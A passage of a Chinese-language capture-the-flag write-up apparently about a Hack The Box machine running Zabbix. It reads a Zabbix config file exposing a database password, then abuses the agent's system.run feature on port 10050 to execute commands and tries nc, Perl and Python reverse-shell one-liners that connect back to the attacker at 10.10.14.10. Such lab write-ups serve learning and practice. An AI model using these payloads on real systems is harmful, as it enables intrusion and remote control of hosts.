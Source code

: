 ```

结果显示了一个web的路径。
/usr/share/zabbix/robots.txt

cat /usr/share/zabbix/conf/zabbix.conf.php

$DB['TYPE']     = 'MYSQL';
$DB['SERVER']   = 'localhost';
$DB['PORT']     = '0';
$DB['DATABASE'] = 'zabbixdb';
$DB['USER']     = 'zabbix';
$DB['PASSWORD'] = 'f.YMeMd$pTbpY3-449';

mysql -u zabbix -p 
f.YMeMd$pTbpY3-449     #输入密码
页面提示
ERROR 1044 (42000): Access denied for user 'zabbix'@'localhost' to database 'f.YMeMd-449mysql'
连接失败
---
ls -al /
-rwxr-xr-x   1 root root    0 Sep 30 21:33 .dockerenv
发现一个docker目录，说明可能是虚拟机容器
```
## 反弹10.10.10.108的shell到本机

### 信息搜集
```
netstat -nr
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
0.0.0.0         172.17.0.1      0.0.0.0         UG        0 0          0 eth0
172.17.0.0      0.0.0.0         255.255.0.0     U         0 0          0 eth0
查看路由表
---
ifconfig，本地ip为172.17.0.2
---
nc -nv 172.17.0.1 10050
用nc扫描网关的的10050端口，为open状态
---
echo system.run[ ifconfig ] | nc 172.17.0.1 10050
通过zabbix server system.run的系统特性，可以进行命令执行
```
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/10-02-11/2.PNG)

```
echo system.run[ nc -e /bin/bash 10.10.14.10 1235 ] | nc 172.17.0.1 10050
提示nc没有-e参数
---
echo system.run[ perl -e 'use Socket;$i="10.10.14.10";$p=1235;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' ] | nc 172.17.0.1 10050
提示ZBXD)ZBX_NOTSUPPORTEDInvalid item key format.
---
echo system.run[ whereis python ] | nc 172.17.0.1 10050
echo system.run[ /usr/bin/python3.6 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ] | nc 172.17.0.1 10050

ZBXD)ZBX_NOTSUPPORTEDInvalid item key format.
连接失败
---
echo system.run[ nc 10.10.14.10 1235 ] | nc 172.17.0.1 10050
```